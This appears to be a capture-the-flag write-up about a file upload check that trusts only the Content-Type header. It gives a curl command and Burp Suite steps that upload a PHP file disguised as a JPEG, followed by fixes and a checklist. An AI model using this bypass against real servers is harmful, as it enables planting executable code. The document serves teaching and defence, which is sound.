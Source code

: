 # Content-Type File Upload Vulnerability

## 🎯 Overview
This vulnerability demonstrates a weak file upload validation system that only checks the Content-Type header, allowing malicious file uploads through simple header manipulation.

## 🔍 Vulnerability Details
The application at `/index.php?page=upload` implements insufficient file upload validation:
- Only validates Content-Type header
- Fails to verify actual file content
- No proper file extension validation
- Missing file content analysis

## ⚔️ Exploitation Process

### Tools Required
- **Burp Suite** (optional for header manipulation)
- **cURL** (for command-line exploitation)
- Text editor for creating payload

### Method 1: Using cURL
```bash
# Create malicious PHP file and exploit using cURL
echo '<?php echo "I am bad" ?>' > /tmp/bad.php && \
curl -X POST \
  -F "Upload=Upload" \
  -F "uploaded=@/tmp/bad.php;type=image/jpeg" \
  "http://x.x.x.x/index.php?page=upload" \
  | grep 'The flag is :'
```

### Method 2: Using Burp Suite
1. Intercept the upload request
2. Modify the Content-Type header from `application/octet-stream` to `image/jpeg`
3. Forward the modified request

### Attack Result
**Flag**: 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

## 🛡️ Security Issues Identified
1. Weak file upload validation
2. Content-Type header trust
3. Missing file content validation
4. Insufficient extension checking
5. No file analysis implementation

## 🔒 Recommended Security Fixes

### 1. Implement Comprehensive File Validation
```python
# Example validation logic
def validate_file(file):
    # Check file extension
    allowed_extensions = ['jpg', 'jpeg', 'png']
    if not file.filename.lower().endswith(tuple(allowed_extensions)):
        return False
        
    # Verify actual content type
    if not imghdr.what(file):
        return False
        
    # Check file size
    if len(file.read()) > MAX_FILE_SIZE:
        return False
        
    return True
```

### 2. Security Measures Checklist
- [ ] Implement proper file extension whitelist
- [ ] Verify actual file content (not just headers)
- [ ] Implement file size limits
- [ ] Generate new random filenames
- [ ] Set proper file permissions
- [ ] Scan for malware
- [ ] Store files outside web root
- [ ] Use secure file storage location

### 3. Additional Security Controls
- File content analysis
- Image file validation
- Antivirus integration
- File metadata stripping
- Secure file storage configuration

## 📝 Best Practices for File Upload Security

### File Naming
```python
import uuid
def secure_filename(filename):
    # Generate random filename with original extension
    ext = filename.split('.')[-1]
    return f"{uuid.uuid4()}.{ext}"
```

### Storage Configuration
```nginx
# Nginx configuration example
location /uploads {
    internal;
    add_header Content-Type application/octet-stream;
    add_header Content-Disposition attachment;
}
```

## 📚 Additional Resources
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [File Upload Security Best Practices](https://www.sans.org/blog/8-basic-rules-to-implement-secure-file-uploads/)
- [Content-Type Security](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type)

## ⚠️ Disclaimer
This documentation is for educational purposes only. Always obtain proper authorization before testing security measures on any system.